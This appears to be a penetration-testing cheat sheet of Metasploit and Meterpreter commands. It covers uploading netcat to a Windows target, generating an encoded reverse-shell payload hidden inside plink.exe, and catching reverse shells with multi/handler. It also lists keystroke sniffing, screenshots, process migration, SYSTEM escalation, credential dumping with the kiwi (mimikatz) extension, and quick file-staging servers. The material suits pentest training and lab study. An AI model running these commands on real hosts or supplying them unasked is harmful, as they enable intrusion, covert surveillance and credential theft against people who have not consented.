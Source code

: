 ### Meterpreter

- `upload /usr/share/windows-resources/binaries/nc.exe c:\\Users\\tidus`
- `download c:\\Windows\\system32\\calc.exe /tmp/calc.exe`
- `shell` get the shell

### Other notes

- `generate -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe` embedding the payload in plink.exe from within msfconsole
- Use the framework `multi/handler` to catch standard reverse shells
  - Works for all single and multi-stage payloads
  - Specify the incoming payload type

### Post-Exploitation

```
screenshot                take a screenshot of the compromised host desktop
keyscan_start             start the keystroke sniffer
keyscan_dump              dump captured keystrokes
keyscan_stop              stop the keystroke sniffer
```

**Migrate your meterpreter process**
- `ps` view all running processes and then pick one
- `migrate <PID>` migrate the process to a target PID

**Use mimikatz from meterpreter**
- `load kiwi` run the extension kiwi
- `getsystem` acquire SYSTEM privileges
- `creds_msv` dump the system credentials

**Port forwarding**
- `meterpreter> portfwd -h`
  - Example `portfwd add -l 3389 -p 3389 -r 192.168.1.121`


## Others

**For a temporary server**
- `python -m SimpleHTTPServer 7331`
- `python3 -m http.server 7331`
- `php -S 0.0.0.0:8000`
- `ruby -run -e httpd . -p 9000`
- `busybox httpd -f -p 10000`

**For a temporary public server**
- [XAMPP](https://www.apachefriends.org/) + [ngrok](https://ngrok.com/)
- [beeceptor](https://beeceptor.com/)

**For a temporary FTP server**
- Host: `python -m pyftpdlib -w`
- Client:
  ```
  ftp
  open <IP> 2121
  anonymous
  
  ```
